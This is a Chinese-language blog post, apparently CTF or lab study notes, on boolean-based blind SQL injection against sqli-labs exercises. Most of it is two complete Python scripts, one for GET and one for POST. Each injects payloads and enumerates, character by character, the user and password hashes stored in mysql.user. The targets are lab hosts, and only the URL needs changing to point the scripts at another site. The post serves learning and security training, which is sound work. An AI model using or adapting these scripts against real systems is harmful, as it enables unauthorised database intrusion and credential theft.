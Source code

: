 # 布尔盲注


&gt;参考博客：https://blog.csdn.net/wangyuxiang946/article/details/123486880?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522168717513616800182146667%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&amp;request_id=168717513616800182146667&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-123486880-null-null.142^v88^koosearch_v1,239^v2^insert_chatgpt&amp;utm_term=%E5%B8%83%E5%B0%94%E7%9B%B2%E6%B3%A8&amp;spm=1018.2226.3001.4187
## 1.适用情况
页面**只有**登录成功和登录失败这**两种情况**时，可以使用布尔盲注。

## 2.步骤
（1）使用 length()函数 判断查询结果的长度
（2）使用 substr()函数 截取每一个字符，并穷举出字符内容

## 3.手工注入很费时用脚本
（1）get型布尔盲注
```
import requests

# 只需要修改url 和 两个payload即可
# 目标网址（不带参数）
url = &#34;http://3534c6c2bffd4225bf3409ae9a2ec278.app.mituan.zone/Less-5/&#34;
# 猜解长度使用的payload
payload_len = &#34;&#34;&#34;?id=1&#39; and length(
	                (select group_concat(user,password)
                    from mysql.user)
                ) &lt; {n} -- a&#34;&#34;&#34;
# 枚举字符使用的payload
payload_str = &#34;&#34;&#34;?id=1&#39; and ascii(
	                substr(
		                (select group_concat(user,password)
		                from mysql.user)
	                ,{n},1)
                ) = {r} -- a&#34;&#34;&#34;

# 获取长度
def getLength(url, payload):
    length = 1  # 初始测试长度为1
    while True:
        response = requests.get(url= url&#43;payload_len.format(n= length))
        # 页面中出现此内容则表示成功
        if &#39;You are in...........&#39; in response.text:
            print(&#39;测试长度完成，长度为：&#39;, length,)
            return length;
        else:
            print(&#39;正在测试长度：&#39;,length)
            length &#43;= 1  # 测试长度递增

# 获取字符
def getStr(url, payload, length):
    str = &#39;&#39;  # 初始表名/库名为空
    # 第一层循环，截取每一个字符
    for l in range(1, length&#43;1):
        # 第二层循环，枚举截取字符的每一种可能性
        for n in range(33, 126):
            response = requests.get(url= url&#43;payload_str.format(n= l, r= n))
            # 页面中出现此内容则表示成功
            if &#39;You are in...........&#39; in response.text:
                str&#43;= chr(n)
                print(&#39;第&#39;, l, &#39;个字符猜解成功：&#39;, str)
                break;
    return str;

# 开始猜解
length = getLength(url, payload_len)
getStr(url, payload_str, length)

```
（2）post型布尔盲注
```
import requests

# 网站路径
url = &#34;http://7eb82265178a435aa86d6728e7b1e08a.app.mituan.zone/Less-13/&#34;
# 判断长度的payload
payload_len = &#34;&#34;&#34;a&#39;) or length(
                    (select group_concat(user,password) 
                     from mysql.user)
                )&gt;{n} -- a&#34;&#34;&#34;
# 枚举字符的payload
payload_str = &#34;&#34;&#34;a&#39;) or ascii(
                    substr(
                        (select group_concat(user,password)
                        from mysql.user)
                    ,{l},1)
                )={n} -- a&#34;&#34;&#34;

# post请求参数
data= {
    &#34;uname&#34; : &#34;a&#39;) or 1 -- a&#34;,
    &#34;passwd&#34; : &#34;1&#34;,
    &#34;submit&#34; : &#34;Submit&#34;
}

# 判断长度
def getLen(payload_len):
    length = 1
    while True:
        # 修改请求参数
        data[&#34;uname&#34;] = payload_len.format(n = length)
        response = requests.post(url=url, data=data)
        # 出现此内容为登录成功
        if &#39;../images/flag.jpg&#39; in response.text:
            print(&#39;正在测试长度：&#39;, length)
            length &#43;= 1
        else:
            print(&#39;测试成功，长度为：&#39;, length)
            return length;

# 枚举字符
def getStr(length):
    str = &#39;&#39;
    # 从第一个字符开始截取
    for l in range(1, length&#43;1):
        # 枚举字符的每一种可能性
        for n in range(32, 126):
            data[&#34;uname&#34;] = payload_str.format(l=l, n=n)
            response = requests.post(url=url, data=data)
            if &#39;../images/flag.jpg&#39; in response.text:
                str &#43;= chr(n)
                print(&#39;第&#39;, l, &#39;个字符枚举成功：&#39;,str )
                break

length = getLen(payload_len)
getStr(length)

```


---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2023web-%E5%B8%83%E5%B0%94%E7%9B%B2%E6%B3%A8/  

